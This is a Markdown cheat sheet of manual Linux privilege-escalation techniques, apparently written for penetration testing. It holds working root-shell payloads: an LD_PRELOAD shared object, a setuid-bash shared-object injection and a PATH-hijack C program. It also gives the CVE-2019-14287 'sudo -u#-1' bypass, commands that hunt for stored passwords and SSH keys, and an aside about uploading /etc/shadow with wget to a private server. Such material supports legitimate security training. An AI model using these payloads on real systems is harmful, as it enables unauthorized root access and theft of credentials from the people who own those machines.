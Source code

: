 # ***Manual Linux Privilege Escalation Checks***

## System Enumeration

*Anything system related.*

### *Kernel Exploits*

*An outdated kernel version may lead to easy wins.*

    uname -a

### *Finding Running services*

    ps aux
    ps aux | grep root

## **[PASSWORDS AND FILE PERMISSIONS]**

*A password or sensitive file disclosure can give us important information.*

### *Stored Passwords*

    history
    cat .bash_history

*We can also attempt to locate the password name being searched. Think outside the box.*

For mentions of `PASSWORD=`: `grep --color=auto -rnw '/' -ie "PASSWORD=" --color=always 2>/dev/null`

For files named `password`: `locate password | more`

>We can attempt these commands with `PASSWORD=` , `passwd`, `password`, etc.

### *Weak File Permissions*

Look for **read or write** permissions to `/etc/shadow`

Look for **write** permission to `/etc/passwd`

Anything interesting in `/etc/group` ?


### *SSH Keys*

    find / -name id_rsa 2>/dev/null
    find / -name authorized_keys 2>/dev/null
    
## **[SUDO]**

*Abusing sudo to gain root.*

### *Sudo Shell Escaping*

    sudo -l

Shell escape using an exploitable binary using [GTFOBins](https://gtfobins.github.io/)

### *Intended Functionality*

Is there any intended functionality we can abuse from a sudo'able binary? Example: use `wget` to upload the `/etc/shadow` file to our private server?

### *`env_keep+=ENV_PRELOAD` is present*

*We want to use the ENV_PRELOAD feature in order to preload a malicious payload.*

1. Create the following C script named `<NAME>.so`

```
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
    unsetenv("LD_PRELOAD");
    setgid(0);
    setuid(0);
    system("/bin/bash");
}
```

2. Compile it : `gcc -fPIC -shared -o <NAME>.so <NAME>.c -nostartfiles`

3. Set LD_PRELOAD as shell.so : `sudo LD_PRELOAD=<PATH TO SHELL FILE> <ANY SUDO'ABLE COMMAND>`

### *Version Specific Exploits*

#### *Abusing CVE-2019-14287 (sudo version <1.8.28)*

[CVE-2019-14287](https://www.exploit-db.com/exploits/47502) Comes in handy if we can sudo as any user, except root (`!root`).

1. Check sudo version: `sudo -V`

2. If the sudo version is below 1.8.28, use this command to run as root: `sudo -u#-1 <COMMAND>`

#### *Abusing CVE-2019-18634 (sudo version <1.8.26)*
[Exploit for CVE-2019-18634](https://github.com/saleemrashid/sudo-cve-2019-18634). Works if `pw feedback` is present.

1. Check sudo version: `sudo -V`

2. Run the exploit.

## **[SUID]**

*Abuse the SUID files to gain privs.*

### *Search for SUID Files*

    find / -perm -u=s -type f 2>/dev/null
    find / -type f -perm -04000 -ls 2>/dev/null
    
### *Share Object Injection*

Look to replace / create a file being called in a script.

```
#include <stdio.h>                                                          
#include <stdlib.h>                                                         
                                                                            
static void inject() __attribute__((constructor));                          
                                                                            
void inject() {                                                             
    system("cp /bin/bash /tmp/bash && chmod +s /tmp/bash && /tmp/bash -p"); 
}
```

Compile: `gcc -shared -o <NAME>.so -fPIC <NAME>.c`

### *Binary Symlink*

[WIP]

### *Environmental Variables*

We are looking at scripts that make use of the `$PATH` shortcuts.

To see what kind of `$PATH` shortcut may be used, we can run the `strings` command to read the script.

If a shortcut is being used, we abuse the `$PATH` and "hijack" it. In order to do so, a malicious script must be ran instead of the intended command.

1. Make a malicious script named the same way as the `$PATH` command we are looking to hijack
`echo 'int main() { setgid(0); setuid(0); system("/bin/bash"); return 0; }' > /tmp/<COMMAND NAME>.c`

2. Compile: `gcc /tmp/<COMMAND NAME>.c -o /tmp/<COMMAND NAME>`

3. Add /tmp to `$PATH`: `export PATH=/tmp:$PATH`

4. Run the script.

## [CAPABILITIES]

*Abuse capabilities to get higher privileges*

    getcap -r / 2>/dev/null
